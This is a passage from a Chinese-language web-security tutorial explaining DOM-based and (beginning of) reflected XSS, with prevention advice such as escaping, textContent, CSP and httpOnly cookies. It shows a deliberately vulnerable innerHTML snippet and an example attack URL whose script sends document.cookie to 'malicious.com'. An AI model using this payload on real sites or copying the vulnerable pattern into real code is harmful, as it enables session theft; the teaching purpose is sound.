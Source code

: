 **DOM 型 XSS**：
- **机制**：这种类型的攻击主要涉及页面的 DOM（文档对象模型）。在这里，服务器可能返回无害的数据，但由于前端脚本的不恰当处理，恶意输入可能会被执行为脚本。这种攻击主要利用了客户端（如 JavaScript）在处理用户输入时的缺陷。
- **示例**：考虑一个搜索功能，用户的搜索词会被显示在搜索结果中。如果前端 JavaScript 代码简单地将 URL 中的搜索参数获取出来，并直接插入到页面中，那么攻击者可以在 URL 的搜索参数中插入恶意脚本，从而在其他用户的浏览器中执行该脚本。
- **风险**：与反射型 XSS 类似，这种攻击通常需要诱骗用户执行某些操作（例如，点击链接或访问某个页面）。

为了避免 XSS 攻击，开发者需要确保在将用户输入的数据插入到 web 页面之前，对其进行适当的验证和转义。此外，内容安全策略（CSP）和其他现代浏览器安全措施也可以帮助降低 XSS 攻击的风险。

### 3.预防方法
- 对所有用户输入进行严格的验证和过滤。
- 使用适当的输出编码，确保动态内容在页面中被安全地呈现。
- 使用内容安全策略（Content Security Policy, CSP）限制可执行的脚本。
- 避免使用或限制使用能解析并执行代码的函数，如 `eval()`。
- 对敏感的 cookie 设置 `httpOnly` 属性，这样即使脚本尝试访问 cookie，浏览器也不会返回这些 cookie 的内容。

### DOM 型 XSS 攻击详解
我将为您描述一个具体的 DOM 型 XSS 攻击的例子。

**场景**：假设我们有一个简单的搜索引擎网站，它使用 JavaScript 从 URL 的查询参数中获取用户输入的搜索关键词，然后直接将其显示在搜索结果页面上。以下是这个操作的简化版 JavaScript 代码：

```javascript
// 获取 URL 中 "q" 参数的值
let userQuery = new URLSearchParams(window.location.search).get('q');

// 直接在页面上显示搜索关键词
document.getElementById('search-result').innerHTML = "您搜索的是：" + userQuery;
```

**攻击过程**：
1. 攻击者注意到这个网站直接从 URL 的 `q` 参数中获取数据，并不经过任何过滤或转义就将其插入到页面中。
2. 攻击者构建以下 URL，其中包含一个恶意的 JavaScript 脚本作为 `q` 参数的值：

```js
http://example.com/search?q=<script>fetch('http://malicious.com/steal?cookie='+document.cookie)</script>
```

3. 攻击者将这个恶意链接分享到社交媒体、论坛或通过其他方式诱导受害者点击。
4. 当受害者点击此链接时，他们的浏览器会打开这个搜索引擎网页。因为网页中的 JavaScript 代码没有进行任何数据验证或转义，所以 `<script>` 标签中的恶意代码会被执行。
5. 恶意脚本将受害者的 cookie 信息发送到攻击者控制的 `malicious.com` 域名。

**防御措施**：
要防止 DOM 型 XSS 攻击，网站开发者可以采取以下措施：
1. 永远不要信任用户输入。即使数据是从 URL、表单、Cookies 或任何其他来源获取的，也应对其进行验证和转义。
2. 使用 `.textContent` 或其他安全方法，而不是使用 `.innerHTML` 来插入数据，因为 `.innerHTML` 可能会执行嵌入其中的脚本。
3. 使用内容安全策略 (CSP) 来限制哪些脚本可以被执行。
4. 了解并使用现代 JavaScript 框架（如 React、Vue 或 Angular）提供的内置 XSS 防护机制。

### 反射性 XSS 详解
我将为您描述一个具体的反射型 XSS 攻击的例子。

**场景**：假设有一个网站，该网站允许用户通过 URL 的查询参数来自定义欢迎消息。例如，当用户访问 `http://example.com/welcome?name=Alice` 时，网站会显示“Hello, Alice!”。该网站的后端代码简单地从 URL 获取 `name` 参数，并将其嵌入到返回给用户的 HTML 页面中。
